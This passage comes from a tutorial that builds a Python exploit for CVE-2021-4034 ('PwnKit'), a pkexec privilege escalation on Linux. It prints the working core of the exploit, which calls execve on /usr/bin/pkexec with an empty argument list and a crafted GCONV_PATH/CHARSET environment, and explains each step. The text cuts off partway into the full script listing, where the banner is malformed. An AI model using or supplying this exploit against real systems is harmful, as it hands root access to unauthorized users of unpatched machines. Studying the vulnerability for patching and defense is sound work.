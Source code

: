 ## Step 4

Let's go ahead and add our final snippet! This is the main section of our code to exploit the vulnerability. First, we use the C library that we imported prior to initialize some pointers and create a variable for our C lang library. Next, we create a variable that leads to the actual location of the binary we're going to exploit (`pkexec_cmd`), and since we aren't taking any arguments, we set the `argv = []` to nothing.

The next few parts I'll cover briefly, but only because these sections can be altered in multiple ways for the same outcome. Our `env_store` variable just stores our generated path information to exploit the `pkexec` utility (these environmental variables are not permanent if running on your local system).

Lastly, we setup a basic char variable (from the C library) and save that to a local variable. By doing this, we can initiate a try/except statement for running the exploit! 

```python
c_lang = CDLL(find_library("c"))
c_lang.execve.argtypes = c_char_p, POINTER(c_char_p), POINTER(c_char_p)

pkexec_cmd = b"/usr/bin/pkexec"
argv = []
env_store = [
    b"pwnkit",
    b"PATH=GCONV_PATH=.",
    b"CHARSET=PWNKIT",
    b"SHELL=pwnkit",
    b""
]

e_argv = (c_char_p * (len(argv) + 1))(*argv, None)
e_env = (c_char_p * (len(env_store) + 1))(*env_store, None)

try:
    c_lang.execve(pkexec_cmd, e_argv, e_env)
except Exception as e:
    print("[ERROR]: {0}".format(e))
```

Important note: If you run the exploit and see the `pkexec` help menu, this means the system or environment you're attempting to exploit is patched or not vulnerable.

## Entire Script

Thank you so much for following along and I hope you enjoyed my implementation of the CVE-2021-4034! Feel free to follow my GitHub, located in the sidebar, or you can view the full script below (with my banner included):

```python
import os

from ctypes import *
from ctypes.util import find_library

###########################################

    CVE-2021-4034 | "Pwnkit"
    Author: azazelm3dj3d
    GitHub: https://github.com/azazelm3dj3d

###########################################

"""
Description:
```